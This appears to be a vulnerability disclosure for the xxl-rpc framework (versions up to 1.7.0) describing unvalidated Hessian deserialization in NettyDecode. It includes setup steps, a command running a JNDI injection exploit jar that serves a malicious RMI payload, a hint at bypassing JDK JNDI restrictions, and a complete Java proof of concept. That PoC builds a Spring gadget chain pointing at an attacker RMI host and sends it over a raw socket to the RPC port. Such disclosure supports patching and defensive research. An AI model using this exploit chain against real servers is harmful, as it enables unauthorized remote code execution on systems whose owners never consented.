# XXL-RPC deserialization vulnerability

### Brief description

The xxl-rpc framework utilizes the latest version(4.0.66) of the Hessian to facilitate serialization and deserialization during remote communication processes.

Through code auditing, it is easily discovered that there is a developer-encapsulated serialization processor (currently supporting both Hessian1 and Hessian2 protocols) within the `com.xxl.rpc.core.old.serializ` package of the `xxl-rpc-core` module. During runtime, the server and client will invoke the pre-configured serialization processor for deserialization in the `com.xxl.rpc.core.remoting.net.impl.netty.codec.NettyDecode#decode` method. We found that this method deserialize the inputs without validating, which results in vulnerability.

### Affected versions

```
<= v1.7.0
```

The following uses the latest v1.7.0 as an example to illustrate the attack.

### How to reproduce

Utilize the official source code of xxl-rpc and the `xxl-rpc-samples/xxl-rpc-sample-springboot` provided in the usage examples.

### 1. Starting xxl-rpc server

a. Create necessary directories and files and modify configuration files



Modify the "value" in the second red box to the absolute path of the log file for the newly created client on your local machine.



As above, modify the value in the second red box to the absolute path of the registry data for the newly created local registry on your machine.

And the other configurations needed to edit are as below:





Make sure all of these file are created after editing.


b. Configure the MySQL service locally and import the official database (optional. if an error occurs, maybe you should do this)

I am using Parallels virtual machine locally and have configured [PHPStudy](https://www.xp.cn/) inside it. You can find MySQL is integrated in it (You can also install an MySQL on your local machine).



find tables_xxl_rpc.sql:



put it on a suitable location and then login to MySQL using the command line, then use the "source" command to import the database:



After that, you should modify the configuration information for the database.




(2) Start Zookeeper and xxl-rpc-sample-springboot-server

For this test, jdk8u92 is chosen. If the jdk version is higher, there may be restrictions on JNDI injection. Of course, there are also ways to bypass this restriction for higher versions. However, to facilitate the reproduction and testing of this vulnerability, for higher versions of jdk, a statement can be added before starting the server of the test:`System.setProperty("com.sun.jndi.ldap.object.trustURLCodebase", "true");`

you need to download the [zookeeper](https://zookeeper.apache.org/releases.html) and start it by running ``



the opened server is as below (the 405 error can be ingored): 




### 2 Attacker environment setup and launch the attack

(1) Run malicious RMI service
Execute the command `java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "open -a /System/Applications/Calculator.app` to run the malicious RMI service. If your OS is Windows, you should modify the shell command to `cmd /c calc.exe`. Successful execution of the command produces the following effect:



(2) Unzip xxl-sendEvil.zip and open it with IDEA (or other IDE).
Modify the RUL in PoC2.java to the URL corresponding to the malicious RMI service started in the previous step.


Running PoC2.java will demonstrate the attack effect.

### POC

```java
package com.xxl.rpc.core.poc;

import com.xxl.rpc.serialize.HessianSerializer;
import com.xxl.rpc.serialize.Serializer;
import org.springframework.aop.support.DefaultBeanFactoryPointcutAdvisor;
import org.springframework.beans.factory.BeanFactory;
import org.springframework.jndi.support.SimpleJndiBeanFactory;

import java.io.OutputStream;
import java.net.Socket;

public class PoC2 {

    public static void main(String[] args) throws Exception {

      // Remember to modify the RMI URL
        BeanFactory bf =  SpringUtil.makeJNDITrigger("rmi://192.168.31.5:1099/vorbxa");
        DefaultBeanFactoryPointcutAdvisor pcadv = new DefaultBeanFactoryPointcutAdvisor();
        pcadv.setBeanFactory(bf);
        pcadv.setAdviceBeanName("rmi://192.168.31.5:1099/vorbxa");

        DefaultBeanFactoryPointcutAdvisor pcadv2 = new DefaultBeanFactoryPointcutAdvisor();
        pcadv2.setAdviceBeanName("rmi://192.168.31.5:1099/vorbxa");
        Object obj = JDKUtil.makeMap(pcadv2, pcadv);

        HessianSerializer serializer = new HessianSerializer();
        byte[] bytes = serializer.serialize(obj);
        // serializer.deserialize(bytes, null);

        int length = bytes.length;
        byte[] newArray = new byte[length + 4];
        newArray[0] = (byte) ((length >> 24) & 0xFF);
        newArray[1] = (byte) ((length >> 16) & 0xFF);
        newArray[2] = (byte) ((length >> 8) & 0xFF);
        newArray[3] = (byte) (length & 0xFF);
        System.arraycopy(bytes, 0, newArray, 4, length);
        Socket socket = new Socket("127.0.0.1", 7080);
        OutputStream outputStream = socket.getOutputStream();
        outputStream.write(newArray);
        outputStream.flush();
        outputStream.close();

    }

}
```

### **Vulnerability Impact**

This attack can cause remote arbitrary code execution

### **Display of attack results(Remote Code Execute)**



